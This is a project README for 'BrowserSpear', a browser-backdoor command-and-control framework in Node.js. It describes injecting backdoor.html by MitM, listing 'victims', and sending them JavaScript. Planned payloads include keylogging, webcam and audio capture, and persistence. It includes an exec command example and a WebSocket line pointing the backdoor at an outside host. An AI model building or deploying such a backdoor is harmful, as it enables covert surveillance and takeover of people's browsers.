 # BrowserSpear
A framework for exploiting browsers by injecting Javascript to a web-based backdoor

# Aim of the project
- After a backdoor is injected in the browser (backdoor.html) the backdoor will try a websocket first and otherwise poll with GET requests. If a GET request succeeds but no websocket is possible (browser incompatible, proxy, filter, ... ) it will communicate in both ways with respectivly GET and reponse-headers.
- When a connection is available to a host it can be send Javascript-code to be executed on the machine
- Clients will be identified from the server with a couple commands and a database will be kept in a plain file
- The interface will be combined with the server (nodejs for async events). If the server is already running, make a connection to the existing server through HTTP requests or a websocket to have the same level of access
- Commands will only be accepted if comming from localhost
- The interface is a metasploit-like commnand-based system to list victims and send commands (custom or prepared payloads)
- Examples of payloads: webcam stream, audio record, keylogger, persistance, ... (check BeEF for inspiration)
- SSL protected connection with loadable cert (Future)

# Dependencies
- Nodejs (install with package-manager)
<pre>apt-get install nodejs</pre>
- Websockets (nodejs-library: https://www.npmjs.com/package/websocket) easiest installed with npm (see below)
- Prompt (nodejs-library: https://www.npmjs.com/package/prompt) easiest installed with npm (see below)
<pre>apt-get install npm && npm install websockets && npm install prompt</pre> 

# Usage
- To start the command server, use the following command:
<pre>node backend_server.js</pre>

- To test, inject the backdoor as a MitM, serve the file yourself or open http://IP-or-URL-server>:1337/ in a browser

- Commands can be send by typing them in the backend_server.js-interface or doing a HTTP-call:
<pre>curl 'http://localhost:1337/exec?alert("muahahahaha")'</pre>

# TODO & Roadmap
- if necessairy ask to clean port (if something is running on it, maybe pinpoint it) (maybe make bash script starter that checks this?)
- (DONE) For testing, if the servers root is requested, return the backdoor.html file
- backdoor must be built to only provide the URL to connect to if it was not already set. so that the url can be changed by adding an extra script-segment with "var socket = new WebSocket('ws://wereiwanttogo.com:1337')"
- (DONE) interface should take commands to be sent to victims.
- (DONE) a new connection should be fingerprinted 
- ... and merged with the connection object and also logged to a local file with a history of commands.
- Module system with javascript-scripts in files that are parsed into onliners (maybe minified) and then send. Only knowledge is for returning data with socket.send() and developing a way to also have modules for server-side (retrieval of loot) (Idea: support "file"-tag and "stream-tag" and "data"-tag)
- input should be able to be corrected and navigated by the arrow keys without creating escape characters (https://scotch.io/tutorials/build-an-interactive-command-line-application-with-nodejs)
- interface with more layers to list and send commands specific to victim
- GET call to server (from local) to generate payload (newest version) with specified URL to be directed to
- Help command in interface should explain how iframe can be use for the injection of backdoor.html by tool like bettercap (for example)
- look for persistance options in same manner as poisontab, Also try migration to other tabs
- Penetration to system-level attacks
- History of commands (up and down arrow key) -> prompt library
- Guide with modules, builtup and options for loot retrieval
- modules (attacks) moest be able to run async in sessions (also multiple clients)
- handler option in modules?

# Examples how to inject
TODO
- bettercap, badusb, mitm by spoofing evil twin (link articles)

# Credits
- Samy Kamkar for the inspiration through the Poisontab project and the code that provides the low-level base of the project.

